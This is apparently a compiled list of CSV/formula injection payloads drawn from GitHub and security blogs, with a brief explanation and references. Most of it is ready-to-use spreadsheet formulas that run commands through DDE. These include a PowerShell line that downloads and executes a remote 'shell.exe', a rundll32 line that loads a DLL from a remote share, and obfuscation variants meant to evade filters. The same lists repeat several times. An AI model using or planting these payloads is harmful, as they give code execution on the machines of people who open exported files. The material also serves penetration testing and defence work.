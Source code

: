 
CSV Injection Payload List

##
#
https://systemweakness.com/csv-injection-payload-list-e8e1deca6da5
#
https://medium.com/@ghostxploiter/how-a-simple-spreadsheet-can-hack-your-computer-csv-injection-98f4a26c4957
#
https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection
#
##



CSV Injection
Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.
```
Exploit
Basic exploit with Dynamic Data Exchange

# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

# Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

# Using rundll32 instead of cmd
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A

# Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
Technical Details of the above payload:

cmd is the name the server can respond to whenever a client is trying to access the server
/C calc is the file name which in our case is the calc(i.e the calc.exe)
!A0 is the item name that specifies unit of data that a server can respond when the client is requesting the data
Any formula can be started with
```
=
+
–
@
References
OWASP - CSV Excel Macro Injection
Google Bug Hunter University - CSV Excel formula injection
CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani
From CSV to Meterpreter - 5th November 2015 - Adam Chester
The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer
Three New DDE Obfuscation Methods
Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection

##
##
##



Screenshot on CSV Injection Attack
CSV injection is a type of cyber attack in which an attacker attempts to inject malicious data into a CSV file. This can happen if the application that processes the CSV file does not properly validate the input, allowing the attacker to insert arbitrary content into the file. The attacker may then be able to manipulate the data in the file, potentially leading to security breaches or other problems. To prevent CSV injection attacks, it is important to always validate user input and ensure that it is free from any malicious content before processing it. This can be done using a variety of techniques, such as input sanitization and filtering.

Payloads :
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
Sources to be read :
https://www.we45.com/blog/2017/02/14/csv-injection-theres-devil-in-the-detail
https://payatu.com/csv-injection-basic-to-exploit
https://www.veracode.com/blog/secure-development/data-extraction-command-execution-csv-injection
Examples from the real world :

https://hackerone.com/reports/118582
https://hackerone.com/reports/223344
https://hackerone.com/reports/126109
https://hackerone.com/reports/386116
https://hackerone.com/reports/459532
https://hackerone.com/reports/335447
https://hackerone.com/reports/219323
https://hackerone.com/reports/216243
https://hackerone.com/reports/282628
References :
CSV Injection :

👉 https://owasp.org/www-community/attacks/CSV_Injection
Cloning an Existing Repository ( Clone with HTTPS )

root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
Cloning an Existing Repository ( Clone with SSH )

root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
GitHub : https://github.com/payloadbox/csv-injection-payloads



```
CSV Injection Payloads
     

CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

Payloads :
=DDE("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
References :
CSV Injection :
👉 https://owasp.org/www-community/attacks/CSV_Injection
Cloning an Existing Repository ( Clone with HTTPS )
root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
Cloning an Existing Repository ( Clone with SSH )
root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
Donate!
